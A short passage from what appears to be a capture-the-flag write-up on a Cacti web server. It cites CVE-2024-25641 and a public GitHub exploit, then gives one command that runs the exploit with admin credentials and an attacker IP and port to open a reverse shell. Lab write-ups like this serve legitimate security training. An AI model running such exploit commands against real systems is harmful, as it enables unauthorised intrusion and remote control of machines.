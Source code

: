 In the case of the cacti web page, i was able to find the following resources, from which i was able to get a reverse shell into the computer. 

- https://nvd.nist.gov/vuln/detail/CVE-2024-25641
- https://github.com/Safarchand/CVE-2024-25641

By inputing the following commands, we get the reverse shell:  

```bash
$ python3 exploit.py --url http://cacti.monitorsthree.htb -u admin -p greencacti2001 -i 10.10.16.39 -l 6666
```

From here on, we have access to the [[computer]]